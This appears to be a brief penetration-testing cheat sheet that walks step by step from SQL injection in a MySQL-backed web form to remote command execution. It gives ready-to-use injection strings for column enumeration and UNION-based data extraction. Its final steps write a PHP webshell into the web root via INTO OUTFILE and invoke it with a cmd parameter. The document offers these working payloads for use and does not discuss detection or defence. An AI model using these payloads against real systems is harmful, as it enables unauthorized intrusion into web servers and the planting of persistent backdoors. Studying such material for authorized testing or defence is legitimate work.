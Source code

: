 ## MySQL RCE (not blind)

1. Identify vulnerability by testing with special characters (', ", --, //) in input field, or by searching CVEs
2. discover number of columns in table: `' ORDER BY 1-- //` (if the number in the query is greater than the number of columns, an error is returned)
3. Discover which column has text data type by shifting the position of @@version: `' UNION SELECT null, null, database(), user(), @@version -- //`
4. Write webshell to server: `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- //`
5. Use webshell: `http://abc.com/webshell.php?cmd=whoami`